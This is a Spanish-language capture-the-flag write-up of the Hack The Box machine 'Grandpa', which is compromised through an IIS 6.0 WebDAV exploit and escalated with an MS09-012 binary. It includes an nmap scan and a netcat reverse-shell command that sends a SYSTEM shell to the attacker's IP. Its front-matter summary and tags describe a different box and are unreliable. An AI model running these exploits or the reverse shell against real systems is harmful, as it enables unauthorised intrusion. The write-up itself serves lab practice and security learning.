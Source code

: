 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 2021-11-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-Grandpa/granpa-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-Grandpa/granpa-logo.png)

Machine IP = 10.10.10.14

Lo primero que realizo es verificar si la maquina esta activa mandándole un “ping” y esperando que me responda.

![](/assets/images/htb-writeup-Grandpa/pic1.png)

Después lo que hago es cuadrar mi entorno de trabajo por medio de un script en Python que cree el cual me dirá exactamente frente a que maquina estoy actuando y a la vez me va a crear unos directorios que normalmente uso.

![](/assets/images/htb-writeup-Grandpa/pic2.png)

##Port Scan

A continuación, mando el nmap:
  * nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.14

```
# Nmap 7.92 scan initiated Thu Nov 18 21:27:35 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up, received echo-reply ttl 127 (0.077s latency).
Scanned at 2021-11-18 21:27:41 EST for 295s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan:
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Fri, 19 Nov 2021 02:38:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 21:32:36 2021 -- 1 IP address (1 host up) scanned in 301.27 seconds

```
##Web Site

Nos metemos a la pagina que esta en el puerto 80 (http), pero nos encontramos con una página que realmente no nos muestra mucho:

![](/assets/images/htb-writeup-Grandpa/pic3.png)

Con ayuda del whatweb y con searchsploit encontramos que existen posibles exploits para el IIS de Microsoft versión 6.0.

![](/assets/images/htb-writeup-Grandpa/pic4.png)

##Shell

Encontramos el exploit en https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269  el cual lo descargamos y corremos y tenemos acceso a la maquina como el usuario “nt authority\network service”


![](/assets/images/htb-writeup-Grandpa/pic5.png)

Para realizar la escalación de privilegios en máquinas Windows normalmente lo primero que mando es un systeminfo para poder recolectar un poco más de información sobre el sistema y de esta manera lograr ver si tiene alguna vulnerabilidad.

![](/assets/images/htb-writeup-Grandpa/pic6.png)

##Privilege escalation

Lo que mas me llama la atención es que la maquina esta corriendo bajo un OS Windows server 2003. Con ayuda de searchsploit busco sobre Windows server 2003 y nos encontramos con un script en C el cual nos toca compilar y posteriormente nos dará acceso como root.

![](/assets/images/htb-writeup-Grandpa/pic7.png)

Antes de iniciar con la escalada de privilegios, tenemos que mandar dos archivos a la maquina víctima, el primer archivo es MS09-012.exe (el archivo C compilado) y el segundo es nc.exe

![](/assets/images/htb-writeup-Grandpa/pic8.png)

Desde nuestra maquina escuchamos en el puerto 443 y corremos el .exe desde la maquina victima por medio del siguiente comando :
  * MS09-012.exe -d “C:\tmp\nc.exe -e cmd 10.10.14.14 443”

Finalmente tenemos acceso a la maquina como Root ( nt authority\system).

![](/assets/images/htb-writeup-Grandpa/pic9.png)

